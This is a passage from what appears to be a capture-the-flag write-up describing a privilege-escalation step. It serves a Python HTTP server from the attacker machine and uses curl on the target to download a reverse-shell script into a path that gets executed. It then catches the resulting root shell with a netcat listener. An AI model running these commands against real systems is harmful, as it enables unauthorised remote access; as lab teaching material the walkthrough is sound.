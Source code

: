 Spin up an http server on your attacker machine:

```bash
python3 -m http.server 8000
```

Copy the reverse shell into */home/sun/Documents/script.py* by running the following command on the target machine:

```bash
curl -o /home/sun/Documents/script.py http://10.10.14.3:8000/rev.py
```

Start a netcat listener on your attacker machine:

```bash
nc -lvnp 1234
```

We can see that the python file has been run:

![x](screenshots-storage/process_is_run.png)

We get a shell.

![x](screenshots-storage/pop_root_shell.png)
